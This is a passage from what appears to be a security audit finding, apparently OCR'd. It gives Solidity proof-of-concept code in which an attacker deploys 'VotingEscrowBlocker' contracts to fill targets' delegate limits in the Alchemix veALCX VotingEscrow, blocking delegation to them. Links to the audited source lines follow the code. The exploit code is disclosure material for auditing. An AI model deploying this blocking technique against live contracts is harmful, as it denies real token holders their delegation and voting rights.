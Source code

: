 ```solidity
    // Block target to be delegated
    function blockTarget(address target) public onlyOwner {
        _generateTokenLimitOf(target);
        
        veALCX.delegate(target);
        lastUsed = block.number;
    }

    function _generateTokenLimitOf(address target) internal {
        uint256 balance = veALCX.balanceOf(address(this));
        uint256 targetBalance;

        if (veALCX.numCheckpoints(target) > 0) {
            uint256[] memory tokenIds = veALCX.getTokenIds(target);
            targetBalance = tokenIds.length;
        }
        if (targetBalance + balance < _VEALCX_MAX_DELEGATES ) {
            increaseVeALCXTokens(_VEALCX_MAX_DELEGATES - (targetBalance + balance));
        } else if (targetBalance + balance > _VEALCX_MAX_DELEGATES ) {
            decreaseVeALCXTokens((targetBalance + balance) - _VEALCX_MAX_DELEGATES);
        }
    }
}


contract VotingEscrowPoC is BaseTest {
    uint256 public constant THREE_WEEKS = 3 weeks;
    address public attacker;
    address public alice;
    address public bob;

    VotingEscrowBlocker[] public veBlockers;


    function setUp() public {
        // Setup BaseTest contract
        setupContracts(block.timestamp);

        // Setup Attacker address, and mint some bpt tokens (1e18).
        attacker = vm.addr(uint256(keccak256(abi.encodePacked('Attacker'))));
        vm.label(attacker, 'Attacker');
        deal(bpt, attacker, 1 ether);

        // Setup Alice address, and mint some bpt tokens (2e18).
        alice = vm.addr(uint256(keccak256(abi.encodePacked('Alice'))));
        vm.label(alice, 'Alice');
        deal(bpt, alice, 1 ether);
        // Setup Alice address, and mint some bpt tokens (2e18). 
        bob = vm.addr(uint256(keccak256(abi.encodePacked('Bob'))));
        vm.label(bob, 'Bob');
        deal(bpt, bob, 1 ether);

        // Attacker start setup an env for his attacks logic;
        // Create and setup multiple VotingEscrowBlocker so then can be used for multiple targets.
        hevm.startPrank(attacker);
        veBlockers.push(new VotingEscrowBlocker(address(veALCX), address(bpt)));
        veBlockers.push(new VotingEscrowBlocker(address(veALCX), address(bpt)));

        IERC20(bpt).transfer(address(veBlockers[0]), .1 ether);
        IERC20(bpt).transfer(address(veBlockers[1]), .1 ether);

        // To speed up, Attacker has to generate a max token delegate for blocker instances
        veBlockers[0].blockTarget(address(veBlockers[0]));
```

[1]: [alchemix-v2-dao/src/VotingEscrow.sol#L34 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L34)
[2]: [alchemix-v2-dao/src/VotingEscrow.sol#L1040 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1040)
[3]: [alchemix-v2-dao/src/VotingEscrow.sol#L1110 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1110)